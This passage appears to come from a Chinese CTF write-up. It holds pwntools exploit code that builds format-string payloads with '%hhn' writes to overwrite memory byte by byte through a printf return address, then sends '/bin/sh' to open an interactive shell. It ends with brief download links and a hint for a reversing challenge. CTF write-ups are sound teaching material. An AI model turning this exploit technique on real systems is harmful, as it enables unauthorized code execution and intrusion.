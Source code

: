 ```plain
for i in range(6):
    cur_bytes = change_byte % 256
    change_byte //= 256
    print(hex(cur_bytes))
    print(hex(addr_write + i))
    # begin with 6
    payload = 'A' * 5 + "%9$hhn" + '%' + str(cur_bytes - 5) + "c"+ "%10$hhn"
    payload = payload.encode()
    assert len(payload) <= 0x18
    payload = payload.ljust(0x18, b'a')
    payload += p64(addr_printf_ret)
    payload += p64(addr_write + i)
    payload = payload.ljust(0x30, b'a')

    p.send(payload)

p.send(b'/bin/sh\x00'.ljust(0x30, b'a'))
p.interactive()
```

### ezre

> [附件下载](https://pan.baidu.com/s/1ieK13stXEcSqqhDLC1tLBw) 提取码（GAME）[备用下载](https://share.weiyun.com/8GkVSR5O)

解开 ollvm，对照原算法写出逆向版本即可
